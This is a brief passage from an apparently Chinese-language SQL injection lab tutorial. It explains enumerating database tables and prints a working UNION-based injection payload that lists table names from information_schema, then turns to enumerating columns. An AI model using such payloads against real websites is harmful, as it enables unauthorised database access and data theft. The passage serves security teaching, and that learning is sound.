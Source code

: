 ![sql1-爆表1](/images/sql/sql1-爆表1.png)
&emsp;&emsp;这是因为2列语句太长了，我们放3列就行
![sql1-爆表2](/images/sql/sql1-爆表2.png)
```
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```
&emsp;&emsp;爆列，注意，表名也就是table_name要视情况而判断，要看哪个表就用查哪个表.